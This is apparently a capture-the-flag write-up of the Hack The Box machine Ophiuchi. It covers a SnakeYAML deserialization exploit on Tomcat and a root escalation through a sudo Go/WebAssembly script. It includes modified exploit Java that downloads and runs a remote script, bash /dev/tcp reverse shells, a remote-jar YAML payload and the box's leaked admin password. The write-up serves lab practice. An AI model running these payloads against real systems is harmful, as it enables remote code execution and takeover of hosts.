









Ophiuchi is a Linux machine. The IP of the box is 10.10.10.227.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/ophiuchi 10.10.10.227`




And I found two services:
- *ssh*
- *webserver Apache Tomcat*

On port 8080 there is a YAML parser


i have tried to insert some yaml and got the following error




So i googled for `SnakeYAML` and i found the following [article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) that show a deserialization vulnerablity.

So i cloned the [repo](https://github.com/artsploit/yaml-payload) and edit the following [file](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java#L12) on row 12-13
```java

package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.85/shell.sh -O /tmp/t.sh");
            Runtime.getRuntime().exec("bash /tmp/t.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


```

The file shell.sh
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.85/8080 0>&1'

```

and compiled

>javac src/artsploit/AwesomeScriptEngineFactory.java
>jar -cvf yaml-payload.jar -C src/ .


I opened a web server at port 80
>python3 -m http.server 80

a revshell at port 8080
>nc -lvp 8080

and on yaml parser inserted

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.85/yaml-payload.jar"]
  ]]
]
```

and got revshell as `tomcat`




# User
I checked in `/opt/tomcat/tomcat-users.xml` and i found the credential for the user `admin`



>user:**admin**
>password:**whythereisalimit**

and i logged as admin in ssh



and taked the flag



# Root

I launched `sudo -l` and i get



So i checked `/opt/wasm-functions/index.go`

```go
package main                                                                            
import(                                                                                        
        "fmt"                                                                           
        wasm "github.com/wasmerio/wasmer-go/wasmer"                                                     
        "os/exec"
        "log"          
)   
                                               
                                               
func main() {                                  
        bytes, _ := wasm.ReadBytes("main.wasm")                                       
        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]       
        result,_ := init()                     
        f := result.String()
        if (f != "1") {                        
                fmt.Println("Not ready to deploy")             
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))       
        }    
} 
```

The script run, as root, `deploy.sh` if `f` is not 1. So i need:
1) to change the value of `f`
2) insert a revshell in `deploy.sh`

###### 1) change f value
The script read the webassembly file (`main.wasm`), load the function `info` and save the content of info in `f`. I need to edit the value of `f` inside the function `info`(the function info is inside main.wasm). For this i converted the webassembly file in a webassembly text format (wat) with the [wabt](https://github.com/WebAssembly/wabt) utility.

Convert in `wat`
> wasm2wat main.wasm > t.wat

edit `const 0` in `const 1` 
```wasm
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 0))     ---> change with 1
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```

and convert in `wasm`

> wat2wasm t.wat > main.wasm


###### 2) deploy.sh

The `index.go` not check the path for `deploy.sh` so i can just create a my own file.

> cd shm
> mkdir t

and create `deploy.sh` file

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.85/8080 0>&1'
```

I ran `sudo /usr/bin/go run /opt/wasm-functions/index.go` and got revshell as root



and grabbed the flag




